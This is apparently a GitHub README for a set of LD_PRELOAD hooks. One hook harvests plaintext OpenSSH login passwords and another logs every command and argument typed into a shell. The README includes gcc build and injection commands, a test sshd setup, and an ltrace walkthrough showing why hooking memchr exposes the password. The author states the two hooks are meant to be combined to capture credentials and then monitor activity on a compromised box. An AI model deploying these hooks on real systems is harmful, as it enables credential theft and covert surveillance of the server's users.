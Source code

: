 # LD_PRELOAD hooks
 A collection of shared objects that are used as LD_PRELOAD hooks

## LD_PRELOAD Background
From the man page for `ld.so`:

> LD_PRELOAD  
>  A list of additional, user-specified, ELF shared objects
  to be loaded before all others.  This feature can be used
  to selectively override functions in other shared objects.  
> There are various methods of specifying libraries to be
preloaded, and these are handled in the following order:
>
> 1. The LD_PRELOAD environment variable.
> 2. The --preload command-line option when invoking the dynamic linker directly.
> 3. The /etc/ld.so.preload file (described below).  
>        File containing a whitespace-separated list of ELF shared
        objects to be loaded before the program.  See the
        discussion of LD_PRELOAD above.  If both LD_PRELOAD and
        /etc/ld.so.preload are employed, the libraries specified
        by LD_PRELOAD are preloaded first.  /etc/ld.so.preload has
        a system-wide effect, causing the specified libraries to
        be preloaded for all programs that are executed on the
        system.  (This is usually undesirable, and is typically
        employed only as an emergency remedy, for example, as a
        temporary workaround to a library misconfiguration issue.)

# sshd_memchar_hook
The goal of this hook is to read and output OpenSSH passwords

## sshd_memchar_hook compile/usage

    gcc sshd_memchar_hook.c -o /tmp/sshd_memchar_hook.so -fPIC -shared -ldl -D_GNU_SOURCE
    LD_PRELOAD=/tmp/sshd_memchar_hook.so /usr/sbin/sshd -D -f /etc/ssh/sshd_config_tmp

# shell_arg_hook
This hook records commands typed into a shell. It does this with the simple trick of logging argc and argv arguments that are sent to a process. This is accomplished by placing the function in the `.init_array` section. This means it has access to argc and argv, where it can then log them. The executable will then proceed as normal.

This has other implications, for example the question here: https://unix.stackexchange.com/questions/88665/how-does-ps-know-to-hide-passwords

If this .so is injected in the mysql startup, the password will be available in the log.

This was written to be used in conjunction with `sshd_memchar_hook` to record what password is used, and then what commands are run on the box.

## shell_arg_hook compile/usage

    gcc shell_arg_hook.c -o /tmp/shell_arg_hook.so -fPIC -shared -ldl -D_GNU_SOURCE
    LD_PRELOAD=/tmp/shell_arg_hook.so bash

# Example Setup

First, lets configure an OpenSSH server without overwriting the running one.
These commands just create a second sshd config listening on port 2222, runs, and confirms

    sed "s/#Port 22/Port 2222/" /etc/ssh/sshd_config > /etc/ssh/sshd_config_tmp
    /usr/sbin/sshd -D -f /etc/ssh/sshd_config_tmp
    ss -lntp # Confirm listening on port 2222

# How it works / why memchar?
First, lets look at all the library calls that ssh makes. The "-f" flag for ltrace is VERY important, since there is a lot of forking going on

    root@kali:~/tmp# ltrace -f /usr/sbin/sshd -D -f /etc/ssh/sshd_config_tmp 2>sshd_dump.log

In another terminal, lets create a login event. The password I will be typing in is `FAKEPASSWORD`

    root@kali:/tmp# ssh FAKEUSER@127.0.0.1 -p 2222
    FAKEUSER@127.0.0.1's password:

Now lets look at the output, and see what calls we are interested in:

    root@kali:~/tmp# grep FAKE sshd_dump.log 
    [pid 14878] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14878] memcpy(0x561856c41c60, "FAKEUSER", 8)                                                                                      = 0x561856c41c60
    [pid 14878] strchr("FAKEUSER", '/')                                                                                                    = nil
    [pid 14878] strchr("FAKEUSER", ':')                                                                                                    = nil
    [pid 14878] strlen("FAKEUSER")                                                                                                         = 8
    [pid 14878] memcpy(0x561856c33cc4, "FAKEUSER", 8)                                                                                      = 0x561856c33cc4
    [pid 14877] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14877] memcpy(0x561856c312a0, "FAKEUSER", 8)                                                                                      = 0x561856c312a0
    [pid 14877] getpwnam("FAKEUSER")                                                                                                       = 0
    [pid 14877] strncpy(0x7ffd72e5666c, "FAKEUSER", 32)                                                                                    = 0x7ffd72e5666c
    [pid 14878] strlen("FAKEUSER")                                                                                                         = 8
    [pid 14878] memcpy(0x561856c31100, "FAKEUSER\0", 9)                                                                                    = 0x561856c31100
    [pid 14878] strlen("11607582978119444942FAKEUSER")                                                                                     = 28
    [pid 14878] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14878] memcpy(0x561856c3bc70, "FAKEUSER", 8)                                                                                      = 0x561856c3bc70
    [pid 14878] strchr("FAKEUSER", '/')                                                                                                    = nil
    [pid 14878] strchr("FAKEUSER", ':')                                                                                                    = nil
    [pid 14878] strcmp("FAKEUSER", "FAKEUSER")                                                                                             = 0
    [pid 14878] strlen("11607582978119444942FAKEUSER")                                                                                     = 28
    [pid 14878] memcpy(0x561856c351f0, "\0\0\002\310\0062\0\0\0\bFAKEUSER\0\0\0\016ssh-connec"..., 256)                                    = 0x561856c351f0
    [pid 14878] memchr("FAKEUSER", '\0', 8)                                                                                                = 0
    [pid 14878] memcpy(0x561856c3bc70, "FAKEUSER", 8)                                                                                      = 0x561856c3bc70
    [pid 14878] strchr("FAKEUSER", '/')                                                                                                    = nil
    [pid 14878] strchr("FAKEUSER", ':')                                                                                                    = nil
    [pid 14878] strcmp("FAKEUSER", "FAKEUSER")                                                                                             = 0
    [pid 14878] memchr("FAKEPASSWORD{\347ju\307#\244\032R\0241PW\021\271\320\t\005\324Q"..., '\0', 12)                                     = 0
    [pid 14878] memcpy(0x561856c454f0, "FAKEPASSWORD", 12)                                                                                 = 0x561856c454f0
    [pid 14878] strlen("FAKEPASSWORD")                                                                                                     = 12
    [pid 14878] memcpy(0x561856c34414, "FAKEPASSWORD", 12)                                                                                 = 0x561856c34414
    [pid 14877] memchr("FAKEPASSWORD", '\0', 12)                                                                                           = 0
    [pid 14877] memcpy(0x561856c514a0, "FAKEPASSWORD", 12)                                                                                 = 0x561856c514a0
    [pid 14877] strlen("FAKEPASSWORD")                                                                                                     = 12
    [pid 14877] strlen("FAKEPASSWORD")                                                                                                     = 12
    [pid 14878] strlen("11607582978119444942FAKEUSER" <unfinished ...>
    [pid 14877] strncpy(0x7ffd72e566bc, "FAKEUSER", 32)                                                                                    = 0x7ffd72e566bc
    root@kali:~/tmp# grep strlen sshd_dump.log | wc -l
    5079
    root@kali:~/tmp# grep memcpy sshd_dump.log | wc -l
    1320
    root@kali:~/tmp# grep memchr sshd_dump.log | wc -l
    105

So, `memchr` looks pretty interesting. It has the lowest number of calls while showing the data that we want.

